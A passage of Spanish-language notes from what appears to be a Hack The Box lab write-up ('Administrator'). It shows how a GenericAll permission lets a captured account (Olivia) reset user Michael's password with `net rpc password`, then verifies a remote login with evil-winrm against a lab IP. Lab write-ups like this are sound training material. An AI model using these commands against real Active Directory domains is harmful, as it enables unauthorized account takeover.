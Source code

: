 #GenericAll

---
Si le hago click derecho a la linea y pongo help
![[Administrator25.png]]
Con el permiso [[GenericAll]] podemos cambiar la contraseña del usuario *Michael* y nos da el comando
![[Administrator26.png]]
Usamos `net rpc password "michael" "pawned" -U "administrator.htb"/"Olivia"%"ichliebedich" -S "10.129.112.214"` y nos da que la contraseña no se puede cambiar por que no cumple los requerimientos, asi que probamos `net rpc password "michael" "pawned123" -U "administrator.htb"/"Olivia"%"ichliebedich" -S "10.129.112.214"`. En teoria se cambio con exito

![[Administrator27.png]]
Pero para probar si las credenciales son validas use [[evil-winrm]] con `evil-winrm -u michael -p pawned123 -i10.129.112.214` y como nos conecto ya sabemos que todo es correcto
![[Administrator28.png]]
